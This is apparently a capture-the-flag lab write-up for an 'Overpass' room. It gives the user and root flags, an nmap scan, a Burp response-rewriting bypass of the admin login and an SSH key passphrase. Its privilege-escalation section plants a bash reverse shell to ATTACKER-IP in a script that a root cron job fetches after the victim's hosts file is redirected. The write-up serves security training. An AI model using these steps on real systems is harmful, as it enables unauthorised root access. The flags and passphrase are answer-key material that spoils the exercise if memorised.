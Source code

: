 # Overpass
##### Question 1: User flag
Answer
```bash
thm{65c1aaf000506e56996822c6281e6bf7}
```

##### Question 2: Root flag
Answer
```bash
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

- - - - - - - - - - - - - - - - -  - - - - - - - - - - - - - -  - - - 

Nmap Scan:
```bash
Nmap scan report for 10.10.29.239
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   41.89 ms  10.6.0.1
2   ... 3
4   109.43 ms 10.10.29.239
```

In Burp Modify Server Response to gain access to /admin
```bash

- - - - - - - - - - -
Original Resoponse

HTTP/1.1 200 OK
Date: Fri, 17 Dec 2021 23:59:15 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close

Incorrect Crednetials

- - - - - - - - - - - 
Change To

HTTP/1.1 302 Found
Date: Fri, 17 Dec 2021 23:59:15 GMT
Content-Length: 21
Content-Type: text/plain; charset=utf-8
Connection: close
location: /admin


```

SSH Key Pass
```bash
james13
```

PE Screenshot:
![[Pasted image 20211217183632.png]]

Priv Esc:
```bash
Cron Job running as root

On Attacker Machine:
nc -nvlp 9001
mkdir www/downloads/src/
echo "#!/bin/bash" > buildscript.sh
echo "bash -c 'bash -i >& /dev/tcp/ATTACKER-IP/PORT 0>&1';" >> buildscript.sh
python -m SimpleHTTPServer 80
nc -nvlp 9001

On Victom Machine:
echo "10.6.32.32    overpass.thm" > /etc/hosts

```